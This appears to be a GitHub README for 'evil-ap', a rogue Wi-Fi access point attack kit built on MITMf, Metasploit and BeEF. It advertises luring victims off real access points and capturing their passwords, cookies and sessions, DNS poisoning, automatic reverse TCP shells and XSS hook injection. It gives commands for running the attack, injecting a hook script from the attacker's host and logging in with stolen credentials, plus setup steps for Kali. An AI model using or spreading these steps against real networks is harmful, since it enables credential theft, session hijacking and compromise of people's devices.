 # What does it do:

#### Fast AP(AccessPoint) Setup
        *Semi-auto establishing a AP in 15 seconds 
        *Attack real AP and have victims connected to your fake AP
        *Auto-configuration on IPTABLES

#### Phishing
        *HTTP traffic filtering
        *Monitoring on AP network traffic 
        *Filtering Images and Passwords of victims 
        *Save Cookies&Sessions of victims 
        *Poisoning DNS
        *Providing Interface for cookie-spoofing Web Access (Ferret-NG)
        *Auto Metasploiting Reverse_TCP_Shell
        *Beef-XSS injectable

### USE AT YOUR OWN RISK AND RESPONSIBILITY


# Usages

Configure MITMf.conf ( especially about the ip address )
Configure MSF.rc First (unless you dont use msf/--filepwn)

### sample
#### 1
```
./evil-ap --client
driftnet -i eth0
```
#### 2
dont forget the section of Ferret-NG in MIRMf.conf , where 'Client' need to be configured specifically.
```
./evil-ap --ap
```
Proxy your browser via :10010 and use the victim's credentials.

#### 3
```
./beef-xss
./evil-ap --ap
```
and add ` --filepwn --inject --js-url http://yourip:3000/hook.js` to when required --EXTRAARGU

Use with your imagination.

# Install Help

### Requirment:
Tested Environment: Kali 2.0 (Kali Sana) 

Additional packaged needed(apt-get install):
        figlet
        isc-dhcp-server

To run MITMf on Kali , you need `python virtual environment` and `python virtualenvwrapper` 
then create an virtual env for MITMf , and install all the modules for MITMf in virtual env (see requirments.txt)
You will have many problems when install modules. Some modules wont compile at this time so just install as many modules as you can until you dont see problems while running `mitmf -l 10000 --ferretng --dns --hsts --port 10010`
Dont forget to add this to ~/.bashrc
```
export WORKON_HOME=/opt/VirtualEnvs
source /usr/local/bin/virtualenvwrapper.sh
```
Move the MITMf folder  to /opt `mv resources/MITMf  /opt/` and create an shortcut as `/usr/sbin/mitmf`
```
#!/bin/bash
cd /opt/MITMf

export WORKON_HOME=/opt/VirtualEnvs
source /usr/local/bin/virtualenvwrapper.sh 2>/dev/null

workon MITMf 2>/dev/null
python mitmf.py $@
```
`chmod +x /usr/sbin/mitmf`



